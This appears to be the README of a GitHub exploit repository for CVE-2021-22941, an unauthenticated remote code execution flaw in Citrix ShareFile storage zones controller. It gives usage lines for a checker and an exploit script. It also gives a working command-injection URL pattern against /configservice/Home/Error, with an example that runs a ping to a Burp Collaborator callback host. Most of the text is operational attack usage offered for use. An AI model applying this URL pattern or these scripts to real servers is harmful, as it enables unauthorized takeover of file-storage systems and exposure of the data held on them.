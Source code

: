 # CVE-2021-22941 Citrix Sharefile 
Improper Access Control in Citrix ShareFile storage zones controller before 5.11.20 may allow an unauthenticated attacker to remotely compromise the storage zones controller.
# Use
### Check vulnerable
```
python3 check.py -u http://127.0.0.1
```
### Exploit
```
python3 exploit.py -u http://127.0.0.1
```
RCE: Going to http://127.0.0.1/configservice/Home/Error?0={cmd}?1={agrs}
Example:
http://127.0.0.1/configservice/Home/Error?0=cmd?1=/c+ping+-n+5+ajxfqfcjf19sm5popcdh8au6sxynmc.burpcollaborator.net
# Reference
- https://codewhitesec.blogspot.com/2021/09/citrix-sharefile-rce-cve-2021-22941.html
- https://github.com/hoavt184/CVE-2021-22941